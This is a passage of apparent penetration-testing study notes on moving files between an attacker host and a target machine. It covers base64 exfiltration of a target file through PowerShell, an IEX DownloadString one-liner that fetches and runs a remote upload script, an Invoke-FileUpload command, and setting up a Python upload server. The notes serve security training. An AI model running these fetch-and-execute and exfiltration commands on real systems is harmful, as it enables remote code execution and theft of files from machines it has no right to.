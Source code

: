 4. ruby -run -ehttpd . -p8000
    
5. wget [IP:8000] / [file]
    

Upload Operations

- Uploading files to your attacking host from your target machine

Method 1:

1. [Convert]::ToBase64String((Get-Content -path "C:[path of file]"))

- In PS on the target machine retrieve the base64 string of the file

2. Get-FileHash "C[path of file]" -Algorithm MD5 | select Hash

- Get the MD5 Hash of the file

3. echo [base64string] | base64 -d > [file name]

- In the Attacker machine create a file using the base64string and file name

4. md5sum [file]

- Verify the validity of the file with the hashes

Method 2: PS script to upload file to Python Upload Server  
1.IEX(New-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1 "https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1")')

- Download the script needed to perform the action

2. Invoke-FileUpload -Uri http://[target IP:8000/home] -File C:\Users\Public[file]

- Upload the file to target and display the hash

Method 3  
![f4d4a735ba49cfe4c8cde77cfb72fb32.png](8f7faa645411400ca3d4e6b909d80a4c.png)  
![3b52d82d57731abef10abdfc8bbc44d7.png](bacb47319ba84bdc9fa1bab287388a8e.png)

Method 4

1. sudo python3 -m pip install --user uploadserver

- installs the uploadserver module

2. OPTIONAL: openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

- Create a self-signed Certificate

3. mkdir https && cd https

- Creates a new directory to host the file for the webserver

4. sudo python3 -m uploadserver 443  
    OPTIONAL: sudo python3 -m uploadserver 443 --server-certificate /root/server.pem

- Start up the server on port 443 with the certificate
